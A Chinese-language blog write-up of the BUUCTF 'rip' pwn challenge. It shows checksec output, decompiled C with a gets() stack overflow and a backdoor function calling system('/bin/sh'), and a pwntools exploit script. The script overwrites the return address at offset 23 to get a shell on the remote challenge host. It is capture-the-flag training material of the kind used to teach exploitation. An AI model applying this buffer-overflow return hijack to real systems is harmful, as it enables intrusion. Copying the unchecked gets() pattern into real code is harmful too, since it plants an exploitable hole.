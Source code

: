 ```yaml
---
title: rip
date: 2022-07-08 12:56:45
permalink: /pages/4ffb04/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

```c
int fun()
{
  return system("/bin/sh");
}
```



## 思路分析

本题没有开启`PIE`,可以通过采用栈溢出将原来函数的返回地址覆盖为后门函数的地址，完成劫持程序流获得`shell`

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```